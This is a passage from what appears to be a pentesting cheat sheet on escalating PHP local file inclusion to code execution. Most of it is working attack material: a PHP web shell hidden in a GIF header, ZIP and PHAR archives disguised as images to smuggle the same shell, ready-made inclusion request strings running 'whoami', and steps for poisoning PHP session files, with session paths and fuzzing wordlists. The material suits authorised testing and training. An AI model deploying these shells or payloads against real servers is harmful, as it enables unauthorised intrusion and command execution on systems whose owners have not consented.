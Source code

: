 Try also poisioning other logs like FTP or mailserver logs, which may log usernames after login attempts, etc. 

**Upload a image-file containing a webshell**

```php
GIF89a<?php system($_GET["c"]); ?>
```

Store this shell as `me.gif`, upload it to the webserver (e.g. as profile image) and include it then.

**Using the ZIP wrapper**

```bash
echo '<?php system($_GET["c"]); ?>' > shell.php && zip shell.zip shell.php
```

Upload this file and incude it with

`?vuln_param=zip://./upload_dir/shell.zip%23shell.php?c=whoami`

**Using PHAR**

Create this php file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["c"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Then compile it into a phar file and rename it to jpg:

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Upload this file and incude it with

`?vuln_param=phar://./upload_dir/shell.jpg%2Fshell.txt?c=whoami`

**PHP session poisioning**

Session data is stored at:

 - `/var/lib/php/sessions/sess_[SESSIONID]`
 - `C:\Windows\Temp\sess_[SESSIONID]`

 1. Examine the session data by including the file.
 2. Determine if any value in those file can be controlled
 3. Adding a webshell into that value (e.g. `<?php system($_GET["c"]); ?>`)
 4. Including the session file and running the webshell

**TIPPS**

 - Don't forget to scan for unused parameters - e.g. with  
   `/usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt`
 - Useful wordlist for fuzzing can be found in `/usr/share/wordlists/SecLists/Fuzzing/LFI/`
